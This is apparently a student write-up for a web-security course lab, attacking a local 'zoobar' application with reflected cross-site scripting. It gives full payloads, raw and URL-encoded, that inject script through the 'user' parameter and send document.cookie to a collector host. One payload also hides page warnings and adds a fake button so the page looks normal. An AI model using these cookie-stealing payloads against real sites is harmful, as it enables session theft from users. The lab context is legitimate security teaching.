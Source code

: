 

### Exercise 3
As the input field is directly appended to the url, this vulnerability can be used to inject any javascript into the browser. The same script in Exercise 1 is wrapped in "", with a closing tag `>`, and then the `<script></script>`.
```javascript
"><script>alert(document.cookie)</script>"
```

The result is same as Exercise 1
![](https://i.imgur.com/uShbNCw.png)

The encoded URL is
```
http://localhost:8080/zoobar/index.cgi/users?user=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E%22
```

### Exercise 4
The same script in Exercise 2 is wrapped in "", with a closing tag `>`, and then the `<script></script>`.
```javascript
"><script>(new Image()).src='http://127.0.0.1:8000?' + 'to=syssechacks@gmail.com' + '&payload=' + encodeURIComponent(document.cookie)+ '&random=' + Math.random();</script>"
```

The result is same as Exercise 2

The encoded URL is
```
http://localhost:8080/zoobar/index.cgi/users?user=%22%3E%3Cscript%3E%28new+Image%28%29%29.src%3D%27http%3A%2F%2F127.0.0.1%3A8000%3F%27+%2B+%27to%3Dsyssechacks%40gmail.com%27+%2B+%27%26payload%3D%27+%2B+encodeURIComponent%28document.cookie%29%2B+%27%26random%3D%27+%2B+Math.random%28%29%3B%3C%2Fscript%3E%22
```

### Exercise 5
As the injected javascript is displayed inline with the original html elements, there needs to be corresponding scripts to enclose existing elements and inject new ones that look like the existing ones.

We achieve so by inspecting the original html:
```html
<input type="text" name="user" value="" size="10">
```

The injected script that is injected to `value` need to close the input tag with size 0 to match the original look, and spawn a new View button that loads the remote image:
```
"size=10></span><br><input type="submit" value="View"><style>.warning{display:none;}</style><img style="display:none;" src="a" onerror="(new Image()).src='http://127.0.0.1:8000?' + 'to=syssechacks@gmail.com' + '&payload=' + encodeURIComponent(document.cookie)+ '&random=' + Math.random();" a=
```

The encoded html is as follows:
```
http://localhost:8080/zoobar/index.cgi/users?user=%22size%3D10%3E%3C%2Fspan%3E%3Cbr%3E%3Cinput+type%3D%22submit%22+value%3D%22View%22%3E%3Cstyle%3E.warning%7Bdisplay%3Anone%3B%7D%3C%2Fstyle%3E%3Cimg+style%3D%22display%3Anone%3B%22+src%3D%22a%22+onerror%3D%22%28new+Image%28%29%29.src%3D%27http%3A%2F%2F127.0.0.1%3A8000%3F%27+%2B+%27to%3Dsyssechacks%40gmail.com%27+%2B+%27%26payload%3D%27+%2B+encodeURIComponent%28document.cookie%29%2B+%27%26random%3D%27+%2B+Math.random%28%29%3B%22+a%3D
```
